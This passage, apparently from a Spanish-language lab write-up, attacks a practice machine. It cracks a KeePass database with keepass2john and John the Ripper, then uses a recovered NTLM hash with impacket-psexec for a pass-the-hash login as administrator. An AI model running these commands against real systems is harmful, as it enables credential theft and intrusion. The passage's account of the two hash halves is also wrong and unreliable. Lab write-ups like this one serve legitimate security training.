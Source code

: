 Posteriormente, para crackear el archivo fue necesario primero extraer el hash del mismo, usando `keepass2john CEH.kdbx > ceh.hash` para a continuación iniciar el proceso de cracking mediante `john ceh.hash --wordlist=/usr/share/wordlists/rockyou.txt`. Obteniendo así la contraseña del archivo (`moonshine1`).

![Cracking de archivo de KeePass](images/post_4.png)

La base de datos expone múltiples entradas con contraseñas disponibles aunque una en particular se realzó por sobre todas debido al formato de la entrada. Identificandola como un hash NTLM `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`.

![Contenido de entrada sobresaliente](images/post_5.png)

Por lo que hizo uso de nuevo de impacket para conectar a la máquina proveyendo el hash. Dada la estructura de lo hashes NTLM se podría usar tanto como `impacket-psexec 'administrator@10.10.10.63' -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'` como con `impacket-psexec 'administrator@10.10.10.63' -hashes ':e0fb1fb85756c24235ff238cbe81fe00'` debido a que la primera mitad corresponde al identificador de la máquina y la segunda a la "autorización" del usuario.
